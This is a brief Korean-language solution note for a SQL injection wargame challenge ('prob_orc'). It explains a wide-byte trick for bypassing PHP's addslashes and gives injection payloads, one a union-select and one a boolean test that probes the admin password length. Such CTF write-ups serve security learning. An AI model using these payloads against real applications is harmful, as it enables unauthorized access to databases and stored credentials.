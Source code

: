 # Solution..!
- addslashs의 역할.. ' 앞에 / 를 붙이는거임
    - slash 앞에 %a1 ~ %fe 중 하나가 붙으면, slash가 하나의 문자가 되어 버려 우회
- 마지막에 result pw하고 get 하고 같이 같을때만 풀림

- 아님 이거 패스워드를 하나씩 해야하는듯...!


> select pw from prob_orc where id = 'admin' and pw = '' union select "pw"
> %a1' union select %22pw%22 #


- 길이 먼저 찾아보자..
> select pw from prob_orc where id = 'admin' and pw = ''
> || id = 'admin' and length(pw) = 10

여기서 테스트 <br/>
https://www.w3schools.com/php/phptryit.asp?filename=tryphp_func_string_addslashes